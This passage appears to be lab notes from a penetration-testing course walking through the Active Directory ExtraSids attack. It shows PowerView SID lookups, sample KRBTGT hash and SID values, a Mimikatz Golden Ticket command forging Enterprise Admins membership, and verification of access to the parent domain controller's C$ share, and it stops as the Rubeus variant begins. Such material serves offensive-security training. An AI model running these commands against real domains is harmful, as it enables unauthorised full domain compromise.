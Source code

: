 Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.

```powershell
Get-DomainGroup -Domain <DOMAIN.LOCAL> -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

At this point, we have gathered the following data points :
==example:==
- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`
#### Using ls to Confirm No Access
```powershell
ls \\academy-ea-dc01.inlanefreight.local\c$ #=>  Access is denied
```
### 2.1 - ExtraSids Attack - Get Golden Ticket with  Mimikatz
Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.
#### Creating a Golden Ticket with Mimikatz
```powershell
mimikatz.exe
kerberos::golden /user:<hacker> /domain:<CHILD.DOMAIN.LOCAL> /sid:<CHILD-DOMAIN-SID> /krbtgt:<KRBTGT-LM-HASH> /sids:<Enterprise-Admins-group-SID> /ptt
```
#### Confirming a Kerberos Ticket is in Memory Using klist
We can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory.
```powershell
klist 

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
#         Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
```
#### Listing the Entire C: Drive of the Domain Controller
```powershell
ls \\<COMPUTER-dc01.DOMAIN.LOCAL>\c$ #=> access work !!
```

### 2.2 - ExtraSids Attack - Rubeus 
We can also perform this attack using Rubeus. First, again, we'll confirm that we cannot access the parent domain Domain Controller's file system.
#### Using ls to Confirm No Access Before Running Rubeus
```powershell
ls \\academy-ea-dc01.inlanefreight.local\c$ #=>  Access is denied
```
#### Creating a Golden Ticket using Rubeus
Next, we will formulate our Rubeus command using the data we retrieved above. The `/rc4` flag is the NT hash for the KRBTGT account. The `/sids` flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.
